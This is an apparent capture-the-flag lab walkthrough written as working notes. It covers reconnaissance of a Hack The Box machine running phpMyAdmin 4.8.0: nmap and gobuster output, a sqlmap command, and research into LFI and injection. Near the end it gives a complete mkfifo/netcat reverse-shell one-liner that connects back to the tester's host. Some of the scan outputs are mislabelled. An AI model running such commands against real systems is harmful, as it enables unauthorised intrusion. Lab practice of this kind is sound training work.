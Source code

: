 
* Initial nmap output:  

```console
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

* The full map output: 


* Banner grabbing `ssh` and `http`  
  * The ssh
  ```console
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.25 ((Debian))
  ``` 

  * The http  
  ```console
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

* So depending on the tags of the machine seems like I have to do an sqli in one way or another. I will try sqlmap.

```sqlmap -u 10.10.10.143/myphpadmin --data='pma_username=&pma_password=' --method POST --dbs --batch```

* It does not make any sense to use it anyway because the only parameter I have is the `cod=` which seems to be the parameter for the room's code.


gobuster dir -u http://10.10.10.143 -x php,txt,html -w /home/kali/SecLists/Discovery/Web-Content/big.txt

* Found a directory called `/connection.php` when doing `gobuster`.
* The results  
```
/connection.php       (Status: 200) [Size: 0]  
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.143/css/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.143/fonts/]
/footer.php           (Status: 200) [Size: 2237]                                
/images               (Status: 301) [Size: 313] [--> http://10.10.10.143/images/]
/index.php            (Status: 200) [Size: 23628]                                
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.143/js/]    
/nav.php              (Status: 200) [Size: 1333]                                 
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.10.143/phpmyadmin/]
/room.php             (Status: 302) [Size: 3024] [--> index.php]                     
/server-status 
```

* Found a page called `/myphpadmin` and it is a login page which means that I might be able to do the sql injection from there or anything else.

* Found this `http://10.10.10.143/phpmyadmin/setup/index.php`. Seems like it's not supposed to be accessabile to the public even tho it it.
* This page might be useful.


* Gobustering `/phpmyadmin` is a gem I've got tons of directories that seem to be useful (Most of them at least)  

```
/ChangeLog            (Status: 200) [Size: 19186]
/LICENSE              (Status: 200) [Size: 18092]
/README               (Status: 200) [Size: 1520] 
/ajax.php             (Status: 200) [Size: 15219]
/changelog.php        (Status: 200) [Size: 15215]
/doc                  (Status: 301) [Size: 321] [--> http://10.10.10.143/phpmyadmin/doc/]
/examples             (Status: 301) [Size: 326] [--> http://10.10.10.143/phpmyadmin/examples/]
/export.php           (Status: 200) [Size: 15213]                                             
/favicon.ico          (Status: 200) [Size: 22486]                                             
/import.php           (Status: 200) [Size: 15223]                                             
/index.php            (Status: 200) [Size: 15211]                                             
/js                   (Status: 301) [Size: 320] [--> http://10.10.10.143/phpmyadmin/js/]      
/libraries            (Status: 301) [Size: 327] [--> http://10.10.10.143/phpmyadmin/libraries/]
/license.php          (Status: 200) [Size: 15210]                                              
/locale               (Status: 301) [Size: 324] [--> http://10.10.10.143/phpmyadmin/locale/]   
/logout.php           (Status: 200) [Size: 15213]                                              
/navigation.php       (Status: 200) [Size: 15221]                                              
/phpinfo.php          (Status: 200) [Size: 15252]                                              
/robots.txt           (Status: 200) [Size: 26]                                                 
/robots.txt           (Status: 200) [Size: 26]                                                 
/setup                (Status: 301) [Size: 323] [--> http://10.10.10.143/phpmyadmin/setup/]    
/sql                  (Status: 301) [Size: 321] [--> http://10.10.10.143/phpmyadmin/sql/]      
/sql.php              (Status: 200) [Size: 15207]                                              
/templates            (Status: 301) [Size: 327] [--> http://10.10.10.143/phpmyadmin/templates/]
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.143/phpmyadmin/themes/]   
/themes.php           (Status: 200) [Size: 15236]                                              
/tmp                  (Status: 301) [Size: 321] [--> http://10.10.10.143/phpmyadmin/tmp/]      
/url.php              (Status: 302) [Size: 0] [--> /phpmyadmin/]                               
/vendor               (Status: 301) [Size: 324] [--> http://10.10.10.143/phpmyadmin/vendor/] 
```


* There are a bunch of stuff that I can go to.
* Found an exploit (LFI) of the phpmyadmin version we have (4.8.0) but it's not working. I don't know if this means that they've patched the vulnerability or that I'm not using it the proper way. Anyway I don't think it's that easy.
* There's also this tamplating engine "Twig" that is a templating engine for the programming language php. I can inject code into it if it's vulnerable, but I'm not sure yet about this approach.
* SQL injection. Not sure where to go from here.
* There's this weird line of code in the response that has like weird stuff that I don't know if they're helpful 
```javascript
PMA_commonParams.setAll({common_query:"",opendb_url:"db_structure.php",lang:"en_GB",server:"1",table:"",db:"",token:")^||1xKqg]1MzIfK",text_dir:"ltr",show_databases_navigation_as_tree:true,pma_text_default_tab:"Browse",pma_text_left_default_tab:"Structure",pma_text_left_default_tab2:false,LimitChars:"50",pftext:"",confirm:true,LoginCookieValidity:"1440",session_gc_maxlifetime:"1440",logged_in:false,is_https:false,rootPath:"/phpmyadmin/",arg_separator:"&",PMA_VERSION:"4.8.0",auth_type:"cookie",user:"root"}
```  

* It might be a Server Side Template Injection.
* Also, look into the exploits that phpmyadmin version 4.8.0 have. Seems like it has alot of exploits.
* Most exploits seem to need authentication.

* Found a Cross-site Request forgery on searchsploit but it needs an authenticated user plus I don't think CSRF would work on HTB machines because it needs interaction with users.
* https://www.cvedetails.com/cve/CVE-2020-5504/ Seems like I can do SQLi when I get authenticated.
* Default Credentials? root and empty not working

* Seems like the phpmyadmin version we have is vulnerable to LFI with the parameter "target". Can they patch the vulnerability LFI? without downloading a new version of phpmyadmin? I should research it.
* Yet again, it seems that the LFI vuln needs authorization. This is from a website talking about the vulnerability    
<blockquote>
 phpMyAdmin 4.8.x LFI to RCE (Authorization Required)
</blockquote>   

* I will write the facts I have until now:

	1. Seems like phpmyadmin is a deadend.
	2. There's something that has to do with "browsing the rooms".
	3. I browsed the rooms and I don't think it should give me a page when I put a code that does not exist but it does give me a page with the images directory only instead of an image and with the name and price of the room as empty.
	4. The page itself is `room.php` so it's a php page and it's taking a parameter `cod=` to check which room we have so that it will send the proper data.  
	5. I couldn't find any place to upload a php file so that I can execute it through the `/images` directory and get a reverse shell that way.   
	6. Make sure to remember that the exploiting the front end at the moment won't do me any good, I need a way to exploit the backend so that I can access the server and execute a reverse shell there and frontend is never going to give me that.   
	7. Tried to look for something in the source code that could give me something but found nothing yet. But still I have to keep remembering that javascript, jquery or css won't do me any good in this case.  
	8. I'm thinking maybe I can abuse the url in some way, LFI or RFI or something like that. I'm not really sure about this. When researching, I noticed that all the websites state that LFI or RFI occur when the input in the url isn't sanitized correctly but how the hell am I supposed to know when the input isn't sanitized the proper way? Do I, like, try?    
	    They're saying it's usually because of the lack of input validation that site becomes vulnerable to LFI.



* Wappalyzer is the BEST!


* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f

* I've used a php script that takes commands as input so when I put the "mkfifo" command above it gave me a rev shell on my own because it executed the command the wrong way so when I put "" double quotations it solved the problem and took the whole line of commands as input.